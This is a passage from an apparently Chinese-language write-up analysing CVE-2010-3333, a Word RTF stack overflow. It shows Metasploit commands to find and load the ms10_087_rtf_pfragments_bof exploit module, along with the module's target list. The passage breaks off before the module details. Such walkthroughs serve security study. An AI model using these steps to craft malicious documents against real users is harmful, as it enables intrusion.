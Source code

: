 可以发现该漏洞为没有检测 memcopy 的数据长度导致的栈溢出

## 漏洞利用

使用 MSF 搜索该漏洞的 exp

```sh
msfconsole
msf6 > search CVE-2010-3333
```

搜索结果

```plaintext
Matching Modules
================

   #  Name
      Disclosure Date  Rank   Check  Description
   -  ----
      ---------------  ----   -----  -----------
   0  exploit/windows/fileformat/ms10_087_rtf_pfragments_bof
      2010-11-09       great  No     MS10-087 Microsoft Word RTF pFragments Stack Buffer Overflow (File Format)
   1    \_ target: Automatic
      .                .      .      .
   2    \_ target: Microsoft Office 2002 SP3 English on Windows XP SP3 English     .                .      .      .
   3    \_ target: Microsoft Office 2003 SP3 English on Windows XP SP3 English     .                .      .      .
   4    \_ target: Microsoft Office 2007 SP0 English on Windows XP SP3 English     .                .      .      .
   5    \_ target: Microsoft Office 2007 SP0 English on Windows Vista SP0 English  .                .      .      .
   6    \_ target: Microsoft Office 2007 SP0 English on Windows 7 SP0 English      .                .      .      .
   7    \_ target: Crash Target for Debugging
      .                .      .      .


Interact with a module by name or index. For example info 7, use 7 or use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof
After interacting with a module you can manually set a TARGET with set TARGET 'Crash Target for Debugging'
```

调用该模块并查看模块详情

```sh
msf6 > use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof
msf6 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > info
```

模块详情信息
